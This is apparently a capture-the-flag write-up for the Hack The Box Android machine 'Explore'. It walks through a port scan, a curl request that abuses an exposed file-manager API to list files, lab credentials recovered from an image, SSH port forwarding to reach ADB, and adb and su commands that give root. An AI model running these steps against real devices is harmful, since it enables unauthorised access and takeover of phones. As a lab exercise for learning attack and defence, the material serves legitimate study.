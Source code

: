 ```yaml
---
title: Explore
description: Android adb OP
---
```


# Explore HTB

Let's enumarate the machine.

```text
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
42135/tcp open     unknown => web
46125/tcp open     unknown
59777/tcp open     unknown => web
```

I found this command/exploit and used it to enumerate the JSONAPI server.

```bash
curl -XPOST --header "Content-Type: application/json" --data "{\\"command\\":\\"listFiles\\"}" http://explore.htb:59777/sdcard/dcim
```

- http://explore.htb:59777/sdcard/user.txt

- http://explore.htb:59777/sdcard/dcim/creds.jpg

![](images/creds.png)

| user   | password            |
| ------ | ------------------- |
| kristi | Kr1sT!5h@Rp3xPl0r3! |

now let's portforward to access the port **5555** :

```bash
ssh -p 2222 -L 8888:localhost:5555 kristi@explore.htb
```

After that juste connect via ADB and voila you now have root access.

```bash
$ adb connect explore.htb:5555
$ adb shell
$ su
```

## Thanks for reading ;)
